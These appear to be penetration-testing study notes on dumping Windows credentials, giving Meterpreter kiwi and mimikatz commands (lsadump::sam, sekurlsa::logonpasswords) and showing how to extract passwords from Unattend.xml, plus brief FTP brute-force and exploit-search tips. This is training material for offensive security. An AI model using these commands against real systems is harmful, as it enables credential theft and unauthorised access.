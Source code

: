 ## Windows Dump credential

### Windows password hash
- Windows store hash password with SAM database
- Windows versions up to server 2003 use 2 types of hash
  - LM hash
  - NTLM hash (v1, v2)
- SAM database cannot copy while OS running
- Attacker ususally need to dump SAM while it in-memory (LSSAS use SAM, and it need to cache it in memory)
- SAM database is encrypted with syskey.
- Need Administrator privileage to access LSSAS process

**How to access the password/hash**
- Some service can leave config file after installation (like Unattended Windows Setup)
  - `C:\Windows\Panther\Unattend.xml`
  - `C:\Windows\Panther\Autounattend.xml`
- Exploit:
  - Setup listener and meterpreter, `search -f Unattend.xml` -> download it
  - If options plaintext set to false -> Decode the password with base64
  - `base64 -d password.txt`

### Mimikatz

A Windows post-exploit tool allow extract password and hash
- Exploit by copy it to target and execute it.

Alternitive, we can use `kiwi` plugins on meterpreter

Steps:
- Scan `namp -sV <target>`
- If system use badblue, we can use the exploit module `badblue_passthru`
- Migrate to lsass service
- `load kiwi` Load plugins and access kiwi commands
  - use `creds all` to dump hash or `lsa_dump_sam` to dump SAM
  - `lsa_dump_secret` can provide some clear text password

**To use mimikatz**
- `upload /usr/share/windows_resources/mimikatz/x64/mimikatz.exe`
- Run it -> It will open a mimikatz shell
  - `privilege::debug`
  - `lsadump::sam` to dump SAM
  - `lsadump::secret` to dum secret
  - `sekurlsa::logonpasswords` maybe have clear text password

# Linux

### Exploit FTP

- We can use nmap script ftp-anon.nse to check anonymous login
- We can use `hydra` to brute force
- We can use `searchsploit ProFTPD` to search exploit
